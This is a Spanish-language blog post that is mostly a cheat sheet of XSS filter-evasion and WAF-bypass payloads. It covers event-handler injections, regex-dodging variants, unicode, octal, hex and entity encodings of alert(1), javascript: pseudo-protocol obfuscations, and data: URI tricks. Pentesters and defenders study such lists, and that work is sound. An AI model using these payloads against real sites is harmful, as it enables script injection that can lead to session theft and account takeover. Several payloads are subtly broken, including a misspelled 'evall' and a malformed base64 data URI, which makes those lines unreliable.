 ```yaml
---
title: 'Filtrar evasion XSS y eludir WAF'
description: '... \u5223'
pubDate: 'May 12 2023'
slug: 'filter_evasion'
---
```


- [Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

- [Cure53](https://html5sec.org/)

### Escenarios mas comunes

- El vector XSS esta bloqueado por la app
- El vector XSS es sanitizado
- EL vector XSS esta filtrado o bloqueado por el navegador

### Eludiendo filtros de listas negras

```html
<!-- alguno ejemplos html 4-->
<body onload=alert(1)>
<input type=image src=x:x onerror=alert(1)>
<isindex onmouseover="alert(1)">
<form oninput=alert(1)><input></form>
<textarea autofocus onfocus=alert(1)>
<input oncut=alert(1)>
<!-- HTML5 -->
<svg onload=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video><source onerror="alert(1)">

<marquee onstart=alert(1)/>

```

Es común bloquear con regex: **(on\w+\s*=)**

```html
<svg\onload=alert(1)>
<svg\\\\\\onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id=`x`onload=alert(1)>
```

Aquí hay una lista de controles que se pueden usar antes del nombre del evento y el signo **=** o despues

<img src="https://res.cloudinary.com/djc1umong/image/upload/v1692221727/Screenshot_from_2023-08-16_17-34-36_exflo2.webp" alt="Lista de caracteres de control">

- [Antes](http://shazzer.co.uk/vector/Characters-allowed-before-attribute-name)
- [Después](http://shazzer.co.uk/vector/Characters-allowed-after-attribute-name)

Un regex válido para bloquear debería ser así

<img src="https://res.cloudinary.com/djc1umong/image/upload/v1692222013/Screenshot_from_2023-08-16_17-39-20_nwuwp1.webp">


```html
<!-- Unicode -->
<script>eval("\u0061lert(1)")</script>
<!-- Si el vector de ataque es con una cadena de texto añadimos:-->
<img src=x onerror="eval('\141lert(1)')"> <!-- Octal -->

<img src=x onerror="eval('\x61lert(1)')"> <!-- Hexadecimal -->

<img src=x onerror="&#x0061;lert(1)"> <!-- Caracter Hexadecimal Númerico-->

<img src=x onerror="&#97;lert(1)"> <!-- Decimanl NCR-->

<img src=x onerror="eval('\a\l\ert\(1\)')"> <!-- Caracteres superflour-->

<!-- TODOS JUNTOS! -->
<img src=x onerror="\u0065vall('\141\u006c&#101;&#x0072t\(&#49)')"/>


<!-- JavaScript tiene muchas maneras de construir cadenas de "strings" -->

/ale/.source+/rt/.source
String.fromCharCode(97,108,101,114,116)
atob("YWxlcnQ=")
17795081..toString(36)

<!-- Funciones que parsean codigo son llamados "sinks" y pueden ejecutar codigo JS si averiguamos que funcion permite ejecutar-->

setTimeout()
setInterval()
setImmediate()
Function()

<!-- https://code.google.com/archive/p/domxsswiki/wikis/ExecutionSinks.wiki -->

```

### Seudo protocolos

JavaScript bloqueado por: *:*, es amenudo introducido como string

**<a href="javascript:alert(1)">**

```html
<object data="JaVaScRiPt:alert(1)">

<object data="javascript&colon;alert(1)">

<object data="java
script:alert(1)">

<object data="javascript&#x003A;alert(1)">

<object data="javascript&#58;alert(1)">

<object data="&#x6A;avascript:alert(1)">

<object 
data="&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;alert(1)">

```

### Esquema de URi data

**data:[<mediatype>][;base64],<data>**

```html
<!-- SI JavaScript esta bloqueado -->
<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html;base64;PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">

<!-- SI data esta bloqueado -->
<embed code="DaTa:text/html,<script>alert(1)</script>">
<embed code="data&colon;text/html,<script>alert(1)</script">
<embed code="data&#x003A;text/html,<script>alert(1)</script>">
<embed code="&#x64;&#x61;ta:text/html,<script>alert(1)</script>">
```